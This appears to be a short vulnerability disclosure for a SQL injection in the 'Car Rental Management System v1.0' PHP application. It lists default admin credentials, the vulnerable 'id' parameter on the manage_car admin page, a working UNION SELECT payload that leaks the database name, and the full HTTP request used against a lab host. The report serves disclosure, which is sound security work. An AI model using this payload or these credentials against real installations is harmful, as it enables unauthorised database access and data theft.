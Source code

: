 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /car-rental-management-system/admin/index.php?page=manage_car&id=

Vulnerability location: /car-rental-management-system/admin/index.php?page=manage_car&id=,id

[+] Payload: /car-rental-management-system/admin/index.php?page=manage_car&id=-6%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/admin/index.php?page=manage_car&id=-6%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170961356-22451c2e-c1b2-400f-9db0-fc98e70a47b5.png)

![image](https://user-images.githubusercontent.com/54017627/170961396-4a092ea7-e4bd-4311-8c88-30d9b43f488e.png)
